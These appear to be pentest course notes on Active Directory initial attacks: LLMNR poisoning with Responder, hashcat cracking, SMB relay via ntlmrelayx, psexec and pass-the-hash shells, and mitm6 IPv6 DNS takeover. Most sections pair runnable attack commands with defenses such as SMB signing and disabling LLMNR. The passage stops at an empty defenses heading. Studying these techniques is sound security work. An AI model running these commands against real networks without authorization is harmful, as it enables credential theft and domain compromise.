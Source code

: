 # Active Directory: Initial Attack Vectors

### Introduction

Scenario:

Performing a pentest for a client. We send a laptop to the client with a VPN allowing remote access to the 
client's network through the tunnel.

### LLMNR Poisoning Overview

What is Link-Local Multicast Name Resoution (LLMNR)?

- Used to identitfy hosts when DNS fails to do so
- Previously NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to
- Enabled by default

A MiTM attack

### Capturing Hashes with Responder

Step 1: Run responder

`sudo responder -I tun0 -dwP`

Step 2: Wait for an event to occur

Step 3: Responder dumps the hashes

Step 4: Crack the hashes with hashcat

`hashcat -m 5600 hashes.txt rockyou.txt`

### Cracking Our Captured Hashes

Find the hash module in hashcat `hashcat --help | grep NTLM` or [on the website](https://hashcat.net/wiki/doku.php?id=example_hashes)

Crack the hashes with hashcat `hashcat -m 5600 hashes.txt /usr/share/wordlist/rockyou.txt -O -r RuleName`

Better wordlists:

- rockyou2021 ~ 90Gb

Rules to use:

- OneRule

Use password lists relative to the area the target is operating in, e.g sports team names in different areas 
etc.

### LLMNR Poisoning Mitigation

The best defense is to disable LLMNR and NBT-NS through a GPO:

**Disable LLMNR**

Open Group Policy Management tool, select or create a GPO and Edit

Computer Configuration -> Policies -> Administrative Templates -> DNS Client -> Turn off multicast name 
resolution

**Disable NBT-NS**

Open network Connections -> Network Adapter Properties -> TCP/IPv4 Properties -> Advanced tab -> WINS tab ->
Disable NetBIOS over TCP/IP

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:

- Require Network Access Control (restrict devices on the network, e.g through MAC address)
- Require strong user passwords (e.g. > 14 chars in length and limit common word use)

### SMB Relay Attacks Overview

**What is SMB Relay?**

Instead of crackiong hashes gathered with Responder, we can instead relay those hashes to specific machines
and potentially gain access

Requirements:

- SMB signing must be disabled or not enforced on the target
- Relayed user credentials must be an admin on the machine for any real value

Identify hosts without SMB signing:

`nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`

**SMB Relay**

Step 1: Turn SMB and HTTP off in /etc/responder/Responder.conf
Step 2: Run Responder `sudo responder -i tun0 -dwP`
Step 3: Run ntlmrelayx `sudo impacket-ntlmrelayx/ntlmrelay.py -tf targets.txt -smb2support`
Step 4: Wait for an event to occur
Step 5: Responder dumps the hashes from the SAM of the target

Alternatives options to use with ntlmrelayx:

- the `-i` option to start an interactive shell on the target
- the `-c` option to execute a command on the target

### SMB Relay Attacks Lab

Scan our targets with an nmap script to determine whether SMB signing is enabled and enforced

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.2`

To sweep a network use grep to filter for the vulnerable machines

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.0/24 | grep not`

Run responder with HTTP and SMB off in /etc/responder/Responder.conf

`sudo responder -I eth0 -dwPv`

Start ntlmrelayx to capture hashes, start an interactive session `-i`, or run a command `-c cmd` using a
targets file

`impacket-ntlmrelayx -tf targets.txt -smb2support`

On one of the targets navigate to the attacking machine's IP to trigger the relay

### SMB Relay Attack Defenses

**Mitigation Strategies:**

Enable SMB signing on all devices
- Pro: Completely stops the attack
- Con: Can cause performance issues with file copies (10-20% decrease in performance, [info here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/reduced-performance-after-smb-encryption-signing))

Disable NTLM authentication on network:
- Pro: Completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM

*The following are best practice and should be done regardless*

Account Tiering:
- Pro: Limits Domain Admins to specific tasks (e.g. only log on to servers with need for DA)
- Con: Enforcing the policy may be difficult

Local admin restriction (e.g. [LAPS](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)):
- Pro: Can prevent a lot of lateral movement
- Con: Potential increase in the amount of service desk tickets

### Gaining Shell Access

Using Metasploit, with a password

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBDomain domain.local
msf6 > set SMBPass password
msf6 > set SMBUser user
```

Using Metasploit, with a hash

Uses a local user, like adminstrator, so we don't set the domain option (use `unset varname` or set as `.`)

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBPass LM:NT
msf6 > set SMBUser user
```

Using psexec, with a password

`impacket-psexec domain.local/user:'password'@10.10.10.2`

Using psexec, with a hash

`impacket-psexec administrator@10.10.10.2 -hashes LM:NT`

*If psexec gets blocked by an AV or for other reasons, try `wmiexec` and `smbexec`*

### IPv6 Attacks Overview

Most networks use IPv4 meaning there are usually no systems resolving DNS for IPv6

We can setup our attacking machine as an IPv6 DNS resolver to relay NTLM credentials into LDAP using mitm6, 
ntlmrelayx and ldaps

### IPv6 DNS Takeover via mitm6

**Need to use impacket v0.9.19 on python2.7 for this to work!**

Start ntlmrelayx using the DCs IP address

`impacket-ntlmrelayx -6 -t ldaps://10.10.10.1 -wh fakewpad.domain.local -l lootme`

Then run mitm6 (Don't leave running and walk away! Can break things in the network so use for 10-15 mins)

`sudo mitm6 -d domain.local -i eth0`

When an event occurs (machine reboot, network log in, access resources with credentials) mitm6 will dump 
domain information into the directory specified with the `-l` option

This includes Domain users, groups, computers, users by group (look at lastLogon and descriptions!) and more

Allows us to find our high value targets and next steps for our attack, also can add user to compromise the 
domain if a DA logs into the network

### IPv6 Attack Defenses


